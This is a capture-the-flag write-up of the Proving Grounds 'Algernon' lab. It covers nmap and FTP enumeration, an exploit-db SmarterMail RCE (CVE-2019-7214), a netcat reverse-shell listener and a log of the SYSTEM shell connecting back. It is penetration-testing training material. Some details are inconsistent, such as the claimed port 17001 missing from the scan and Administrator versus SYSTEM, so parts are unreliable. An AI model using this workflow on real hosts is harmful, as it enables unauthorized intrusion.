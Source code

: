 # ​Proving Grounds - Easy Windows - Algernon

- **Points** 10
- **Level** Easy
- **Number of Flags** 1
- **Vector Type** SmarterMail
- **IP** 192.168.53.65


---

| Name     | OS      | Job Roles                  | Skills                  |
| -------- | ------- | -------------------------- | ----------------------- |
| Algernon | Windows | Network Penetration Tester | Web Application Attacks |

---

# About

In this lab, we will exploit a remote code execution vulnerability in build 6985 of the SmarterMail application. This exercise enhances your skills in identifying and exploiting vulnerabilities for gaining access to systems.

---

# Summary

This lab demonstrates exploiting a remote code execution vulnerability in SmarterMail build 6985 to gain SYSTEM-level access on a Windows server. Learners will identify the application version, leverage an RCE exploit, and use a reverse shell payload to compromise the target. This lab emphasizes web application exploitation and highlights the risks of unpatched software.

---

## Learning Objectives

**After completion of this lab, learners will be able to:**

- Enumerate open ports and services to identify the SmarterMail application running on port 9998.
- Confirm the application version and search for applicable exploits.
- Deploy the SmarterMail RCE exploit with a reverse shell payload.
- Verify SYSTEM-level access upon successful exploitation.
- Understand the importance of applying patches to mitigate known vulnerabilities.


---

## Recon

- NMap scan
```python
nmap -A 192.168.53.65
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-17 09:10 UTC
Nmap scan report for 192.168.53.65
Host is up (0.00086s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-29-20  10:31PM       <DIR>          ImapRetrieval
| 07-17-25  02:07AM       <DIR>          Logs
| 04-29-20  10:31PM       <DIR>          PopRetrieval
|_04-29-20  10:32PM       <DIR>          Spool
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
9998/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| uptime-agent-info: HTTP/1.1 400 Bad Request\x0D
| Content-Type: text/html; charset=us-ascii\x0D
| Server: Microsoft-HTTPAPI/2.0\x0D
| Date: Thu, 17 Jul 2025 09:11:05 GMT\x0D
| Connection: close\x0D
| Content-Length: 326\x0D
| \x0D
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">\x0D
| <HTML><HEAD><TITLE>Bad Request</TITLE>\x0D
| <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>\x0D
| <BODY><h2>Bad Request - Invalid Verb</h2>\x0D
| <hr><p>HTTP Error 400. The request verb is invalid.</p>\x0D
|_</BODY></HTML>\x0D
|_http-server-header: Microsoft-IIS/10.0
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1903 - 21H1
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-17T09:11:05
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 443/tcp)
HOP RTT     ADDRESS
1   0.57 ms 192.168.49.1
2   0.96 ms 192.168.53.65

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.88 seconds

```


---

## Basic Enumeration
- Anonymous FTP login is enabled, allowing unauthenticated access.
```python
ftp 192.168.53.65
Connected to 192.168.53.65.
220 Microsoft FTP Service
Name (192.168.53.65:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
```

> [!TIP]
> No sensitive data was found in the accessible FTP directories.(Rabbit Hole)

- Port 80 is just a windows IIS page.
- Port 9998 is a login page.

---

## Port 9998 Enumeration
- Opening port 9998 in browser redirects to http://192.168.53.65:9998/interface/root#/login.
- Which is a login page belongs to **smartmailer**.
- Researching exploits for SmarterMail on Google we come across an interesting exploit.
- Exploit link https://www.exploit-db.com/exploits/49216

---

## Exploiting CVE-2019-7214 to get initial access

- Looking at the `nmap` results from earlier we do have .NET remoting running on port 17001. As such this exploit should be applicable to the target machine.
- Exploit configuration . We just need to update target ip (HOST) and our machine ip (LHOST) in the script.
- Then we need to start a netcat listener to get reverse shell.

```bash
nc -lvnp 4444
```

- After starting the listener, we can execute the exploit to get reverse shell.

```python
python3 49216
```
- We will get the shell in our netcat listener as **Administrator**

```bash
nc -lvnp 4444 
listening on [any] 4444 ...
connect to [192.168.49.53] from (UNKNOWN) [192.168.53.65] 49906
bash -i
PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> 
```
---

## Flag Extraction
- Now we can just navigate to **C:\Users\Administrator\Desktop** and read the flag inside **proof.txt** file.

```bash
PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/29/2020   9:29 PM           1450 Microsoft Edge.lnk                                                    
-a----        7/17/2025   2:07 AM             34 proof.txt                                                             


PS C:\Users\Administrator\Desktop> type proof.txt
76fb8ea14********1c2cbbb
```

---

## Author

[Zishan Ahamed Thandar](https://zishanadthandar.github.io)
